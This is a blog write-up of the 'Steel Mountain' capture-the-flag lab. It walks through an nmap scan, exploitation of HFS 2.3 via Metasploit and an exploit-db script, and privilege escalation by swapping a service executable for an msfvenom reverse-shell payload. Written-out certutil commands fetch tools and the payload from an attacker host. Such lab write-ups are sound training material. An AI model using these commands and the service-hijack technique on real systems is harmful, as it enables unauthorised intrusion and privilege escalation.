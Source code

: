 # Steel Mountain
![](https://i.imgur.com/hc9C0Uq.png)

- running a scan to know what is going on on our targets network
  
## Scan results

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.70.217
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 02:09 EST
Nmap scan report for 10.10.70.217
Host is up (0.32s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2024-01-30T07:13:28+00:00; +1m50s from scanner time.
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2024-01-29T06:47:42
|_Not valid after:  2024-07-30T06:47:42
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2024-01-30T07:13:21+00:00
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:4c:5d:c0:bf:49 (unknown)
| smb2-time: 
|   date: 2024-01-30T07:13:22
|_  start_date: 2024-01-30T06:47:34
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1m49s, deviation: 0s, median: 1m49s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.59 seconds
```
- From the above result i see that is is a windows OS.
- it has a web-server running on both port `80` an `8080` 

navigating to the web-server on port `80` i found a picture of the employee of the month and nothing else
![](https://i.imgur.com/Y86ZcGU.png)
But when i view the page source i see where the web-server is serving that image from there backend server and the image is saved with a human name so it has to be `employee of the month` 
![](https://i.imgur.com/UM6jW86.png)
- Nothing else to see from here so i navigate to the second web-server `8080`
  
## Initial access

![](https://i.imgur.com/N2Mqb8e.png)
- i was able to see the service version of the web-server from the bottom of the web-page
i then search for the version of the sever and i found the full name of the file server running and a possible exploit
![](https://i.imgur.com/EPS1vh2.png)
clicking on the first link i was able to understand what i can use to get access 
![](https://i.imgur.com/NAk7cQw.png)
From some of the other search results i noticed some website said there is an exploit for this vulnerability on metasploit, so i start up metasploit and search using the `CVE` 
![](https://i.imgur.com/7N9yhzI.png)
Then i set the needed options and run the module to get a Meterpreter shell
![](https://i.imgur.com/tTohvwL.png)

checking information about the target system i have :

![](https://i.imgur.com/FuenHzR.png)
![](https://i.imgur.com/QdO5XPZ.png)
```bash
C:\Users\bill\Desktop
```

## Privilege Escalation

To enumerate this machine, i will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities
- "_PowerUp aims to be a clearinghouse of common Windows privilege escalation_ _vectors that rely on misconfigurations._"

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the **upload** command in Metasploit to upload the script.

![](https://i.imgur.com/faBcq6J.png)

```
To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell
```
![](https://i.imgur.com/WB7STAx.png)

![](https://i.imgur.com/cVE0o3M.png)

>[!note] 
>The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Using  msfvenom to generate a reverse shell as an Windows executable and naming it the exact name of the `AdvancedSystemCareService9` executable file: `Advanced.exe` and using the encoder `x86/shikata_ga_nai` 
![](https://i.imgur.com/gZ2SvMq.png)
Then i uploaded the executable file into the `Iobit` Directory on `Bill's` machine
![](https://i.imgur.com/64CVha2.png)
i type `shell` in the meterpreter prompt to get a windows shell and copy the `Advanced.exe` file into the `Advanced SystemCare` directory
![](https://i.imgur.com/LrWihXA.png)
in a new terminal i started a netcat listener on the port specified in the msfvenom payload i created earlier.
![](https://i.imgur.com/bhFwzWP.png)

Then i stop and restart the `AdvancedSystemCareService9` service and i got an `NTauthority\system` reverse shell to the listener
![](https://i.imgur.com/u8RqvZl.png)

![](https://i.imgur.com/ZkAw4fW.png)

![](https://i.imgur.com/Hdqz15q.png)

# Manual Foothold and exploitation

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to.

To begin we shall be using the same CVE `the exploit code from exploitdb` [here](https://www.exploit-db.com/download/39161)

To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!.

- before i begin i restart the machine so all changes will reset back to default
after downloading the exploit i used nano to change some needed settings
![](https://i.imgur.com/l2GhBOB.png)
then i change the name of the Netcat binary i downloaded from `ncat.exe` to `nc.exe` because from the exploit code i see that it is calling `nc.exe` not `ncat.exe`
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ mv ncat.exe nc.exe
```
1. i started a python server in the directory i have the `nc.exe` binary and also start a listener withe the port specified in the exploit the i run the exploit
![](https://i.imgur.com/ssJddjr.png)
2. i run the exploit again and this time i get a reverse shell connection
![](https://i.imgur.com/dYuLSpq.png)

![](https://i.imgur.com/o61hQWK.png)
### Privilege Escalation
I downloaded the WinpeasX64exe file from there official [Github](https://github.com/carlospolop/PEASS-ng/releases/download/20240128-3084e4e1/winPEASx64.exe)

I started another python web server in the directory i downnloaded it too and i created a directory on the target machine then use `certutil` to transfer the winPEAS binary to the target machine
![](https://i.imgur.com/c8bWfTj.png)

```powershell
certutil -urlcache -f http://10.6.92.85:80/winPEASx64.exe winPEASx64.exe
```
then i run the the winPEAS script:
![](https://i.imgur.com/fmtyfbU.png)
scrolling through the output i see this section about the unquoted path we used earlier
![](https://i.imgur.com/tCY7Sc4.png)
running `powershell -c get-service` , i can see that the service is running `sc stop AdvancedSystemCareService9` :
![](https://i.imgur.com/JOErDYc.png)

Then i moved into the Iobit directory and use `certutil` to download the advance.exe file i created earlier with msfvenom to the target machine (my python server is still running)

```powershell
certutil -urlcache -f http://10.6.92.85:80/Advanced.exe Advanced.exe
```

i copied the advanced.exe file to the `Advanced SystemCare` directory then i stop and restart the service `sc stop AdvancedSystemCareService9`then `sc start AdvancedSystemCareService9` 

- lastly i use netcat to listen on the port that is specified in my msfvenom payload and i got a higher privilege shell
![](https://i.imgur.com/xwUYqGP.png)

## Thanks For Reading
<button onclick="window.location.href='https://hassans-sec.github.io';">Back To Home</button>
